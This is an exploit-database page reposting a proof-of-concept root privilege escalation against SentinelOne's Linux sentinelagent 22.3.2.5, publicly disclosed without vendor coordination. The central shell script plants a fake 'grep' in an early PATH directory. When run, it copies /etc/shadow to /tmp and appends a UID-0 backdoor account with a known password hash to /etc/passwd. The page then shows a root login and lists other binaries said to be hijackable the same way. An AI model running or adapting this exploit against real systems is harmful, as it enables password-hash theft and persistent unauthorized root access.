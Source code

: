 ```yaml
---
title: SentinelOne sentinelagent 22.3.2.5 Privilege Escalation Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38092&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-12-08
fetch_date: 2025-10-04T00:51:12.689299
---
```


# SentinelOne sentinelagent 22.3.2.5 Privilege Escalation Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for SentinelOne sentinelagent 22.3.2.5 Privilege Escalation Vulnerability

2022-12-07 | CVSS 7.5

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38092
Exploit Title: SentinelOne sentinelagent (linux) root Privilege Escalation zero day vulnerability
Exploit Author: ouch_this_hurts
Vendor Homepage: https://www.sentinelone.com/
Software Link: https://assets.sentinelone.com/prod/s1-linux-agent-datas
Version: 22.3.2.5
Tested on: Ubuntu 22.04.x
CVE: NA

Not enough AI in the world can help you write secure software it seems? The vendor doesnt make reporting vulnerabilities easy, so to exploit-db it goes :)

Protips:
- If I Google you, and I cannot find an easy way to report the vulnerability, I'm not going to bother.
- If you require me to use HackerOne, I'm not going to bother.
- If you dont have a security.txt, how do you expect me to contact you?

Get `root` on a system with `sentinelagent<=22.3.2.5` with one simple trick:

Override `grep` in the `PATH` with your malicious code. Reboot. pwnd. Nice!

PoC below:
1. Find the systems "earliest" `PATH`, or just override it to whatever you want in `/etc/environment` with some other staged exploit.
2. Create the following `grep` file in that directory and make sure its executable:

    ```shell
    cat << SENTINELOOPS > /usr/local/bin/grep
    #!/bin/bash
    # I think I'll have the passwds pl0x
    cat /etc/shadow > /tmp/etc_shadow

    # password is password :)
    echo 'sentinel_oops:\$1\$user1\$WuzQ29wbcMN09VLW7X0/q1:0:0::/root:/bin/sh' >> /etc/passwd
    SENTINELOOPS

    chmod +x /usr/local/bin/grep
    ```

3. Wait for machine to reboot, login as `sentinel_oops:password` :)

    ```
    $ su sentinel_oops
    Password:
    # whoami
    root
    ```

What actually happened here? On `sentinelagent` start it runs `sh -c "grep...."`.

So there are potentially other ways of privilege escalation via this "agent"?
- `grep` as demonstrated above
- `pgrep` examining the binary appears to be vulnerable
- `xargs` examining the binary appears to be vulnerable
- `cat` examining the binary appears to be vulnerable
- `pgrep` examining the binary appears to be vulnerable
- `ldd` examining the binary appears to be vulnerable
- `lsmod` examining the binary appears to be vulnerable
- `mksh` examining the binary appears to be vulnerable
- `awk` examining the binary appears to be vulnerable

[CWE-427](https://cwe.mitre.org/data/definitions/427.html) and [how to write secure software](https://youtu.be/RfiQYRn7fBg?t=16)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)